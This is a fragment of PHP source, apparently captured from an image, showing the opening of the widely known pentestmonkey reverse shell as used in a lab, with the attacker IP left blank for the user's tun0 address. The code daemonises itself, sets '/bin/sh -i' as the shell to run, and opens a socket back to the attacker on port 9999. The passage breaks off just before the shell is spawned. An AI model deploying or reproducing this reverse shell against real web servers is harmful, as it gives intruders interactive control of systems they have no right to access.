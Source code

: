 ```php
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '';  // Your tun0 ip (ifconfig in terminal)
$port = 9999;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
```